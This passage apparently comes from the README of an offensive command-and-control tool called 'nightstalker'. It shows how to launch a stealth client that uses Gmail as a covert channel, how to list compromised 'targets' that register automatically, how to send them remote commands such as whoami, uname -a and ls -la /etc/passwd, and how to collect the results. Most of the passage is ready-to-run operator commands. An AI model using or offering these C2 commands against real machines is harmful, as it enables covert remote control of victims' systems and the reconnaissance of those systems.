 ```bash
python -m nightstalker.c2.stealth_client \
  --target-id TARGET001 \
  --channel gmail \
  --credentials-file credentials.json
```

## 🎯 Target Management

### Register Targets

Targets automatically register when they connect to the C2 server.

### List Targets

```bash
nightstalker c2 targets
```

### Get Target Details

```bash
nightstalker c2 targets --target-id TARGET001
```

### Send Commands

```bash
# Basic command
nightstalker c2 send --target-id TARGET001 --command "whoami"

# Command with timeout
nightstalker c2 send --target-id TARGET001 --command "ping -c 4 8.8.8.8" --timeout 60

# File operations
nightstalker c2 send --target-id TARGET001 --command "ls -la /etc/passwd"

# System information
nightstalker c2 send --target-id TARGET001 --command "uname -a"
```

### Get Results

```bash
# Get all results for target
nightstalker c2 results --target-id TARGET001

# Get specific command result
nightstalker c2 results --target-id TARGET001 --command-id cmd_1234567890_abc123
```

## 🔐 Security Features
